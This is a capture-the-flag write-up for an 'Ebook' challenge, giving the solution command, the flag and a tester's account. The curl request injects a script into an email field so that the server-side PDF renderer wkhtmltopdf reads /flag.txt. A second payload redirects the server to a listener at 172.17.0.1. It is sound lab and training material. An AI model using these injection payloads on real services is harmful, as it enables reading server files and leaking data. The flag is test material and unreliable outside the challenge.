 # Ebook

Description: Do you like reading? Check out this website to get a preview of some great books.

# Solution

If the below command does not work you might need to update the cookie with a valid one create a user and login

```bash
curl 'http://localhost:5000/order/1' \
  -H 'Content-Type: application/json' \
  -H 'Cookie: ebook=eyJpZCI6MX0.YXmnrw.hjhKtxLI7SLBTElSlCbJp7XVLDw' \
  --data-raw '{"email":["ignacio.dominguez95@gmail.com","<script>x=new XMLHttpRequest;x.onload=function(){document.body.appendChild(document.createTextNode(this.responseText))};x.open(\"GET\",\"file:///flag.txt\");x.send();</script>"]}'
```

# Flag

flag{1bf6c08dfe83a9d42e77c6915b0260f5}

# Testing Comments

This took me a couple hours to work through and was a fun experience. The fact that it's a blackbox challenge that requires you to figure out what's going on with the backend by poking around is nice as well.

There seems to be a logical sequence to the solution. The ebook service allows you to send a PDF to a user supplied email. The service actually sends this email along with the PDF attached. Looking inside the PDF, you can see that your email address (and anything else that you send along in the "email" field to the endpoint) is embedded within the PDF.

This functionality leads you to explore possible XSS payloads to see if any of them are potentially triggered on the backend. Setting up a listener and using something as simple as `<script>window.location='http://172.17.0.1:9999'</script>` allows you to receive a request initiated by the server. By inspecting the `User-Agent` header of this request you can see that the PDF is generated by `wkhtmltopdf`.

Searching for `wkhtmltopdf` exploits will lead you to a [file inclusion vulnerability](https://www.virtuesecurity.com/kb/wkhtmltopdf-file-inclusion-vulnerability-2/) that can use an iframe to embed the flag (found at `/flag.txt`) within a PDF that is then emailed to you. Based on the provided solution above, it looks like you could use the XSS functionality to just directly send the flag to yourself as well.

